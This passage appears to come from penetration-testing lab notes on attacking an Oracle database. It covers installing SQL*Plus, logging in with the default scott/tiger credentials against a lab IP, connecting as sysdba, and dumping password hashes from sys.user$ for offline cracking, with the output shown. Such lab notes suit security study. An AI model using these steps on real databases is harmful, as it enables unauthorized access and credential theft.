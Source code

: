 ```sh

...SNIP...
```

### Connecting with SQL Plus
#### Installation
```sh
wget https://download.oracle.com/otn_software/linux/instantclient/214000/instantclient-basic-linux.x64-21.4.0.0.0dbru.zip && wget https://download.oracle.com/otn_software/linux/instantclient/214000/instantclient-sqlplus-linux.x64-21.4.0.0.0dbru.zip && sudo mkdir -p /opt/oracle && sudo unzip -d /opt/oracle instantclient-basic-linux.x64-21.4.0.0.0dbru.zip && sudo unzip -d /opt/oracle instantclient-sqlplus-linux.x64-21.4.0.0.0dbru.zip && cd /opt/oracle/instantclient_21_4 && find . -type f | sort && export LD_LIBRARY_PATH=/opt/oracle/instantclient_21_4:$LD_LIBRARY_PATH && export PATH=$LD_LIBRARY_PATH:$PATH && source ~/.bashrc && sqlplus -V
```
#### Usage
```sh
sqlplus scott/tiger@10.129.119.183/XE

SQL*Plus: Release 21.0.0.0.0 - Production on Mon Mar 6 11:19:21 2023
Version 21.4.0.0.0

Copyright (c) 1982, 2021, Oracle. All rights reserved.

ERROR:
ORA-28002: the password will expire within 7 days



Connected to:
Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production

SQL> 

#if sqlplus: deliver this: error while loading shared libraries: libsqlplus.so: cannot open shared object file: No such file or directory,
#than do this
sudo sh -c "echo /usr/lib/oracle/12.2/client64/lib > /etc/ld.so.conf.d/oracle-instantclient.conf";sudo ldconfig
```
```sh
sqlplus scott/tiger@10.129.119.183/XE as sysdba 
# we can not add new users or make any modifications. From this point, we could retrieve the password hashes from the sys.user$ and try to crack them offline.

SQL> select name, password from sys.user$;

NAME                           PASSWORD
------------------------------ ------------------------------
SYS                            FBA343E7D6C8BC9D
PUBLIC
CONNECT
RESOURCE
DBA
SYSTEM                         B5073FE1DE351687
SELECT_CATALOG_ROLE
EXECUTE_CATALOG_ROLE
DELETE_CATALOG_ROLE
OUTLN                          4A3BA55E08595C81
EXP_FULL_DATABASE

NAME                           PASSWORD
------------------------------ ------------------------------
```